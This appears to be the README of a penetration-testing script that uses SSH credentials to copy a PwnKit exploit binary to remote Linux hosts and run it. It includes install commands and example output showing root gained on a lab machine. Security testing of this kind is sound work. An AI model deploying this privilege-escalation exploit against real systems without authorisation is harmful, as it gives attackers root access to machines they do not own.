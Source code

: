 # PwnKit Over SSH

A script that uses SSH to test if a remote system is vulnerable to PwnKit

## Dependencies
```
sudo apt-get install python3-pip
pip3 install paramiko
```

## How to use it
1. Add your IPs and usernames/passwords to `config.yaml`
2. Open a terminal and run `python3 pwnkit_over_ssh.py`

## Example output:
```
$ python3 pwnkit_over_ssh.py
2023-04-01 00:45:08,246 UTC - DEBUG - Reading config file...
2023-04-01 00:45:08,249 UTC - DEBUG - Successfully read config file
2023-04-01 00:45:08,249 UTC - INFO - Connecting to guest@192.168.199.129...
2023-04-01 00:45:08,308 UTC - INFO - Successfully connected to guest@192.168.199.129
2023-04-01 00:45:08,308 UTC - INFO - Copying pwnkit_x64 binary over SSH...
2023-04-01 00:45:08,640 UTC - INFO - Successfully copied pwnkit_x64 binary over SSH
2023-04-01 00:45:08,651 UTC - INFO - Checking for root privileges...
2023-04-01 00:45:08,693 UTC - DEBUG - 'whoami' output: root
2023-04-01 00:45:08,693 UTC - INFO - Successfully got root on guest@192.168.199.129
```
